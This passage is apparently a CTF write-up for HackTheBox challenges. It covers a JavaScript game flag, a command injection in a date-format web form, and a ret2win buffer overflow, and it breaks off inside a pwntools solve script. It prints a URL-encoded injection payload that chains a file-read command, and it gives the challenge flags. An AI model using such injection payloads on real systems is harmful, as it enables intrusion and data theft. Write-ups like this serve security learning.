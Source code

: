 ## Web

### Flag Command

#### Challenge

This challenge was a simple game in CLI like fashion. We had to provide the correct instructions to the game to get the flag.

#### Solution

This challenge required looking into Javascript using the browser's developer tools. This allowed you to get all the possible options and send a request to the server with for the flag.

Flag: `HTB{D3v3l0p3r_t00l5_4r3_b35t_wh4t_y0u_Th1nk??!}`

### TimeKORP

#### Challenge

In this challenge we were given a website that had a form that took a date as input and returned the date in a different format. The input was passed to the `date` command in the backend. The command was not sanitized and we could inject our own commands. The source code was also provided.

#### Solution

This challenge was a simple RCE. The website had a form that took a date as input and returned the date in a different format. The input was passed to the `date` command in the backend. The command was not sanitized and we could inject our own commands.

`http://IP:PORT/?format=%Y-%m-%d'%20%26%26%20cat%20'%2Fflag`

Flag: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`

## PWN

### Rocket Blaster XXX

#### Challenge

In this challenge we were given a binary and a server. The server was running the binary and we had to exploit it to get the flag.

#### Solution

This challenge was a typical `ret2win`.

After decompiling the binary in Ghidra, we found that the binary was vulnerable to a buffer overflow. We used the buffer overflow to overwrite the return address and jump to the `fill_ammo` function.

```py title="solve.py"
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = """
init-pwndbg
```